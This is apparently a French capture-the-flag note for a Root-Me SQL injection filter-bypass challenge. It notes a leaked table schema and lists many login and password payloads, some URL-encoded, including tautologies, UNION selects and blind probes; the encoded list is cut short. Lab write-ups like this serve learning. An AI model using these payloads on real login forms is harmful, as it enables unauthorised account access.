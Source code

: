 <script src="../../../js/password-protect.js"></script>

---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Contournement-de-filtres
---
# But

se connecter en admin avec une injection SQL

# Fourni

une login page avec une autre page qui nous annonce qu'un compte avec pour user "admin" et id "1" existe
on sait aussi qu'il faudra faire un contournement de filtre

Je vois dans le code source : 

```
<!--
// CREATE TABLE IF NOT EXISTS `membres` (
//   `id` int(1) NOT NULL AUTO_INCREMENT,
//   `username` VARCHAR(5) NOT NULL,
//   `pass` VARCHAR(20) NOT NULL,
//   `email` VARCHAR( 50 ) NOT NULL,
//   PRIMARY KEY (`id`)
// ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
-->
```

je sais donc que c'est une bd "MyISAM" et j'ai aussi le nom de champs
# Méthode de résolution

il faudrait que je me mette à utiliser sqlmap et les autres outils d'injection SQL

[root me a une fiche d'aide pour cela ](https://www.root-me.org/Outil-Sqlmap)


Payload testé pour login
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

' OR 'a'='a'--
' OR 'a'='a'#
' OR 'a'='a'/*
' OR 1=2 UNION SELECT 1,2,3--
' OR EXISTS(SELECT 1 FROM members)--

' OR username LIKE 'adm%'--
' OR ASCII(SUBSTRING((SELECT database()),1,1))>64--
' OR LENGTH((SELECT table_name FROM information_schema.tables LIMIT 1))>1--

admin'--
admin'#
admin'/*
```

Payloads testés pour le pass
```
' OR 1=1--
' OR '1'='1'--
' OR '1'='1'#
' OR 1=1#
' OR 1=1/*

1234' OR 'a'='a'--
1234' OR '1'='1'--
1234' OR 1=1#
1234' OR 1=2 UNION SELECT 1,2,3--

' OR (SELECT COUNT(*) FROM information_schema.tables)>0--
' OR (SELECT LENGTH(username) FROM members LIMIT 1)=5--
' OR password LIKE 'pa%'--
```

Il faut ensuite tester avec des caractères url encodés, au cas ou il y aurai des filtres

```
|   |
|---|
|%27%20OR%201%3D1--|
|%27%20OR%20%271%27%3D%271%27--|
|%27%20OR%20%271%27%3D%271%27%23|
|%27%20OR%201%3D1%23|
|%27%20OR%201%3D1%2F%2A|
||
|%27%20OR%20%27a%27%3D%27a%27--|
|%27%20OR%20%27a%27%3D%27a%27%23|
|%27%20OR%20%27a%27%3D%27a%27%2F%2A|
|%27%20OR%201%3D2%20UNION%20SELECT%201%2C2%2C3--|
|%27%20OR%20EXISTS%28SELECT%201%20FROM%20members%29--|
||
|%27%20OR%20username%20LIKE%20%27adm%25%27--|
|%27%20OR%20ASCII%28SUBSTRING%28%28SELECT%20database%28%29%29%2C1%2C1%29%29%3E64--|
|%27%20OR%20LENGTH%28%28SELECT%20table_name%20FROM%20information_schema.tables%20LIMIT%201%29%29%3E1--|
... (20lignes restantes)
```